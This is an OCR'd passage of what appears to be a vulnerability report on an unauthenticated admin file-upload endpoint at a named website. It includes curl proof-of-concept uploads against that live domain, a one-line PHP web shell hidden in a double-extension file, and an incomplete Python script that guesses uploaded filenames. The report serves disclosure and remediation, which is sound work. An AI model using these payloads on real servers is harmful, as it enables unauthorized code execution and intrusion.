 **3. User-Controlled Extension** (Line 40)
```typescript
const extension = file.name.split('.').pop();
```
- Takes extension directly from user input
- Vulnerable to double-extension attacks
- Example: `malicious.php.jpg` becomes stored as `.jpg` but could execute

#### Proof of Concept - Unauthorized Upload

```bash
# Create a test image
echo "test" > test.jpg

# Upload without authentication
curl -X POST https://elucid.london/api/admin/upload \
  -F "file=@test.jpg"
```

**Response:**
```json
{
  "success": true,
  "url": "/uploads/products/product-1729774800000-abc123.jpg",
  "filename": "product-1729774800000-abc123.jpg"
}
```

**Impact:**
- File successfully uploaded with no authentication
- File publicly accessible at returned URL
- Server storage consumed

#### Proof of Concept - Double Extension Attack

```bash
# Create malicious file with double extension
echo "<?php system(\$_GET['cmd']); ?>" > malicious.php.jpg

# Upload the file
curl -X POST https://elucid.london/api/admin/upload \
  -F "file=@malicious.php.jpg"
```

**Potential Impact (if server misconfigured):**
- Remote code execution (if .php files are processed)
- File stored with controlled extension
- MIME type may not match actual content

#### Proof of Concept - Filename Prediction

```python
import requests
import time

# Predict filename based on timestamp
timestamp = int(time.time() * 1000)
possible_filenames = []

# Generate possible filenames (weak randomness)
for i in range(1000):
    # Math.random() patterns can be predicted
    possible_filenames.append(f"product-{timestamp}-{generate_random()}.jpg")

# Attempt to access predicted files
for filename in possible_filenames:
    url = f"https://elucid.london/uploads/products/{filename}"
    response = requests.get(url)
```